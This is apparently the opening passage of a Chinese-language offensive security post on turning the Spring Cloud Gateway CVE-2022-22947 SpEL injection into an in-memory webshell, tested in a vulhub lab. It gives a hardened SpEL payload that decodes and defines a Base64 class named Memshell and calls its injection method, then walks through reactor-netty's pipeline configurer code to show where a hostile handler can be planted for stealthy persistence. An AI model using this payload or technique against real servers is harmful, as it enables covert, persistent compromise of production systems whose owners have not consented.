 0x00 背景
=======

最进小火的漏洞`CVE-2022-22947`虽然原理简单，但是实战利用还是有点小麻烦。目前公开的利用是每执行一条命就得注册一条路由，refresh一下网关，最后在访问这个路由。先不说步骤较多，就是频繁刷新会影响业务。实战当中注入一个内存马才是硬道理！

spring cloud gateway的web服务是netty+spring构建的，netty的web服务没有遵循servlet规范来设计。这也导致了构造它的内存马，与常规中间件有所不同，从某种程度来讲是这是一种新类型的内存马。

下面以vulhub中的`spring cloud gateway 3.1.0`作为环境，来分享下构造netty层和spring层的内存马，其他版本思路相同。

0x01 高可用Payload
===============

Spring cloud gateway对payload的稳定性要求比较高，一旦报错是由可能会影响业务的。所以在开始之前，我们需要先构造一个"优质"的SPEL执行java字节码的payload。

我主要对payload进行了如下的优化：

1. 解决BCEL/js引擎兼容性问题
2. 解决base64在不同版本jdk的兼容问题
3. 可多次运行同类名字节码
4. 解决可能导致的ClassNotFound问题

```php
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL\[0\],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}
```

0x02 netty层内存马
==============

netty处理http请求是构建一条责任链pipline,http请求会被链上的handler会依次来处理。所以我们的内存马其实就是一个handler。

不像常规的中间件，`filter/servlet/listener`组件有一个统一的维护对象。netty每一个请求过来，都是动态构造pipeline，pipeline上的handler都是在这个时候new的。**负责给pipeline添加handler是`ChannelPipelineConfigurer`(下面简称为configurer)，因此注入netty内存马的关键是分析`configurer`如何被netty管理和工作的。**

`CompositeChannelPipelineConfigurer#compositeChannelPipelineConfigurer`是为pipeline选择configurer的关键逻辑。第一个参数是Spring cloud gateway默认的configurer，第二个是用户额外配置的。一般情况下第一个参数是不为空配置，第二个参数为空配置，所以返回的configurer是Spring cloud gateway默认的。

如果我们能够设置第二个other参数不为空配置呢？ 那么这两个configurer将被合并为一个新`CompositeChannelPipelineConfigurer`。

```php
// reactor.netty.ReactorNetty.CompositeChannelPipelineConfigurer#compositeChannelPipelineConfigurer  
static ChannelPipelineConfigurer compositeChannelPipelineConfigurer(ChannelPipelineConfigurer configurer, ChannelPipelineConfigurer other) {  
    if (configurer \== ChannelPipelineConfigurer.emptyConfigurer()) { // 默认configurer是无操作空配置  
        return other;  
    } else if (other \== ChannelPipelineConfigurer.emptyConfigurer()) { // 其他额外configurer是无操作空配置  
        return configurer;  
    } else {  
        ......  
        ChannelPipelineConfigurer\[\] newConfigurers \= new ChannelPipelineConfigurer\[length\];  
        int pos;  
        if (thizConfigurers != null) {  
            pos \= thizConfigurers.length;  
            System.arraycopy(thizConfigurers, 0, newConfigurers, 0, pos);  
        } else {  
            pos \= 1;  
            newConfigurers\[0\] \= configurer;  // 将默认configurer存储到新configurer  
        }  
​  
        if (otherConfigurers != null) {  
            System.arraycopy(otherConfigurers, 0, newConfigurers, pos, otherConfigurers.length);  
        } else {  
            newConfigurers\[pos\] \= other; // 将其他额外configurer存储到新configurer  
        }  
```